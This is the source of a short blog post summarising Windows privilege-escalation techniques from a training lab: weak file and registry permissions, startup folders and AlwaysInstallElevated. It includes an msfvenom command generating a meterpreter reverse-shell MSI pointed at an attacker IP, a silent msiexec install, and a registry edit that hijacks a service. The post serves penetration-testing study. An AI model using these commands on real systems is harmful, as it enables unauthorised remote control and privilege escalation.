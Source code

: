 ```yaml
---
layout: post
title: "Windows PrivEsc"
date:   2020-05-23 10:00:00
---
```

Here some of classic examples of windows priv esc (from Windows PrivEsc Arena/TCM)

# Windows - Accesschk
Accesschk is a useful console program for viewing the permissions on files, registry keys, services...
By combining the option:
{% highlight bash %}
-w : write access
-u : supress errors
-v : verbose
{% endhighlight %}
You can find directories in which you have write access with elevated privileges.

# Windows - Autorun
Autorun or Startup programs are services managed by the Service Manager
{% highlight bash %}
C:\Program Files\Autorun Program
{% endhighlight %}
If the permission for Everyone is FILE_ALL_ACCESS, so you just need to drop your program and wait for the admin to log in.

# Windows - Startup
This is the same thing as before, checking ACL permission:
{% highlight bash %}
iacls.exe C:\ProgramData\Microsoft\Windows\Start Menu\Prgrams\Startup
{% endhighlight %}
If the output is on full access (F) for BUILTIN\Users, then drop your program to do a reverse shell.
The target need to be logon as Administrator for the privilege access.

# Windows - Always Installed Elevated
One good way to know is the Installed Elevated feature is enable is to do:

<img src="{{ site.baseurl }}/assets/img/win_escpriv/alwaysinstalled.png">
{% highlight bash %}
HKLM: H_KEY_Local_Machine
HKCU: H_KEY_Current_User
{% endhighlight %}
It represents the configuration related to the local machine and to the current user.

So what you need to do is generate a msi package:
{% highlight bash %}
msfvenom -p windows/meterpreter/reverse_tcp lhost=[your ip] -f msi -o setup.msi
{% endhighlight %}

And on the Windows machine execute it in background:
{% highlight bash %}
msiexec /quiet /qn /i C:\temp\setup.msi
/qn: no UI
/i: normal installation
/quiet: quiet mode (no user interaction)
{% endhighlight %}

# Windows Registry
In order to verify the fullControl privilege on the services, with powershell you can check:
{% highlight bash %}
Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\services\regsvc | fl
{% endhighlight %}
Should display: NT AUTHORITY\INTERACTIVE
That means you can create your custom service, replace the original one and execute it:
{% highlight bash %}
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /d c:\temp\service.exe /f
/v ImagePath: path of the service (this is the value)
/d for the data of the value
/f  add the registry key without prompting for confirmation
{% endhighlight %}
And then you can execute your service:
{% highlight bash %}
sc start regsvc
{% endhighlight %}
<img src="{{ site.baseurl }}/assets/img/win_escpriv/services1.png">
<img src="{{ site.baseurl }}/assets/img/win_escpriv/services2.png">

